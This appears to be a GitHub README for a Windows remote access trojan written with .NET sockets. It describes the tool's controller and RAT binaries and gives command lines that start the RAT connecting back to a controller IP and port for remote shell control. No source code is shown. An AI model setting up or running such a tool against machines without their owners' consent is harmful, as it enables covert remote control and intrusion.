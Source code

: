 `Windows Remote Access Trojan (RAT) using .NET Sockets`
`This tool is in developement phase so, apologies for encounter with Bugs.`

Client-server binaries and source-code for controlling a remote machine behind a NAT with a command-line shell in Windows. Although the core provides support for communication with multiple RATs, the command-line interface used has limited capabilities distinguishing each one.

The RAT process executable does not hide itself from taskbar or task manager as it was developed for educational purposes only. Please do not use for any malicious purposes.

Contains the source code and the two binaries packaged using ILMerge.

Replication of RAT:

1. Start the server in a command-line acting as the RAT (Binaries\rat.exe) -> 
rat ip=[controller-ip-address] port=[controller-port-default-is-9999]

2. Start the client in a command-line acting as the controller (Binaries\controller.exe) -> 
controller ip=[listen-ip-address] port=[listen-port-default-is-9999]

3. Issue commands from the controller.exe interface


